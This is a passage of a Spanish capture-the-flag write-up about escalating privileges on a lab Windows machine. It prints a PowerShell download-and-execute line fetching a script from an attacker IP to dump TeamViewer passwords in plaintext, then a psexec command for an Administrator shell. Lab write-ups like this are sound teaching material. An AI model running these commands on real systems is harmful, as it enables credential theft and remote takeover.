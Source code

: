 Para eso utilizamos este [script](https://github.com/zaphoxx/WatchTV) que nos permite obtener el password en texto plano.

- `powershell`
- `IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.248/WatchTV.ps1')`
- `Get-TeamViewPasswords`

![20](images/20.png)

Posteriormente podemos obtener shell a través de **psexec**.

`python psexec.py Administrator@10.10.10.180`

![21](images/21.png)

## Referencias
https://www.exploit-db.com/exploits/46153 \
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md \
https://github.com/zaphoxx/WatchTV \
https://github.com/SecureAuthCorp/impacket